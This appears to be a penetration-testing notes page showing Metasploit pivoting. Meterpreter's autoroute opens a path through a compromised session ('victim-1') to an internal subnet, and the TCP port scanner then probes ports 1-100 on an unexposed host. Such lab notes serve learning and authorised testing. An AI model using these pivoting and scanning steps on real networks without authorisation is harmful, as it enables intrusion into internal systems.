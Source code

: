 <figure><img src="../../.gitbook/assets/105.png" alt=""><figcaption></figcaption></figure>

```bash
# Metasploit has no gateway to hit the address 10.3.25.211 yet
meterpreter> run autoroute -p
# enable a new route for metasploit
meterpreter> run autoroute -s 10.3.28.0/20
# the gateway Session1 is now active in the Metasploit database thus you can reach this subnet by using Metasplpoit scanner modules
meterpreter> run autoroute -p
# CTRL+Z

msf6> sessions -n victim-1 -i 1
# Scan the ports on the unexposed target 2
msf6> use auxiliary/scanner/portscan/tcp
msf6> set rhosts 10.3.25.211
msf6> set ports 1-100
msf6> run
```
